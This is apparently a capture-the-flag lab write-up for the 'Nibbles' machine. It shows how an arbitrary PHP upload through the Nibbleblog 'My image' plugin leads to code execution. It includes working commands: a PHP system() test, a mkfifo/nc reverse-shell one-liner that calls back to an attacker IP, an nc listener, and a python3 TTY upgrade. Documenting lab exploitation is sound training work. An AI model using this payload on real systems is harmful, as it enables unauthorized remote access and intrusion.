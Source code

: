 # Nibbles — Initial Foothold

**Goal:** Turn admin portal access into code execution and a reverse shell on the webserver.

---

## Quick summary
- Logged into the Nibbleblog admin portal and enumerated pages (Publish, Comments, Manage, Settings, Themes, Plugins).
- `Plugins → My image` allowed file uploads; attempted to upload a PHP file instead of an image.
- Upload produced image-related warnings but file appeared to exist under the plugins directory.
- Located uploaded file at: `/nibbleblog/content/private/plugins/my_image/image.php`.
- Executed uploaded PHP via `curl` and confirmed remote code execution as `nibbler`.
- Replaced PHP with a reverse-shell one-liner, started an `nc` listener, and got a reverse shell.
- Upgraded the shell to a proper TTY with `python3`.
- Found `user.txt` and `personal.zip` in `/home/nibbler`.

---

## Notes / Findings

### Admin portal pages inspected
- **Publish** — create post/page/video/quote (potential entry points).
- **Comments** — no published comments.
- **Manage** — manage posts/pages/categories.
- **Settings** — shows vulnerable version `4.0.3`.
- **Themes** — installable themes.
- **Plugins** — can configure/install/uninstall; **My image** plugin allows file upload (promising).

### Upload test
Tried uploading a PHP test file:
```php
<?php system('id'); ?>
```

Upload caused PHP/Image warnings (resize class expected image resource), but upload appeared to succeed.

### Located uploaded file
Path discovered by checking directory enumeration results:
```
http://<host>/nibbleblog/content/private/plugins/my_image/
```
Files observed: `db.xml`, `image.php` (recently modified).

### Confirm remote code execution
Command:
```bash
curl http://10.129.42.190/nibbleblog/content/private/plugins/my_image/image.php
```
Output:
```
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

User context: `nibbler`.

---

## Obtaining a reverse shell

### Reverse shell payload used (PHP wrapper)
Replace `<ATTACKER_IP>` and `<PORT>` accordingly.

PHP file contents used:
```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER_IP> <PORT> >/tmp/f"); ?>
```

Example used in lab:
```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>
```

### Listener (attacker)
```bash
nc -lvnp 9443
# listening on [any] 9443 ...
```

Trigger the PHP by visiting or curling:
```
http://<host>/nibbleblog/content/private/plugins/my_image/image.php
```

Listener shows connection:
```
connect to [10.10.14.2] from (UNKNOWN) [10.129.42.190] 40106
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

---

## Upgrading the shell to an interactive TTY
`python` (v2) missing; `python3` present.

Use:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

(Other upgrade methods exist — see reverse-shell cheat sheets / shell upgrade guides.)

---

## Post-foothold enumeration
From `/home/nibbler`:
```bash
ls
# personal.zip  user.txt
```

`user.txt` found (user flag). `personal.zip` present for further enumeration.

---

## Useful references
- Reverse shell cheat sheets: `PayloadsAllTheThings` and `HighOn.Coffee` (great consolidated reverse-shell examples / formats).

---

## Suggested next steps
- Download and inspect `personal.zip` (possible credentials, further artifacts).
- Enumerate `/home/nibbler` files and permissions.
- Perform local enumeration for SUID binaries, weak sudo rules, and scheduled tasks.
- Search for credentials/config files, SSH keys, or configuration files with secrets.
- Capture `user.txt` content and continue privilege-escalation enumeration.

---

## Commands collected (copyable)
```bash
# check uploaded php
curl http://10.129.42.190/nibbleblog/content/private/plugins/my_image/image.php

# start listener (attacker)
nc -lvnp 9443

# upgrade shell to tty (on target)
python3 -c 'import pty; pty.spawn("/bin/bash")'

# list home
ls /home/nibbler
```
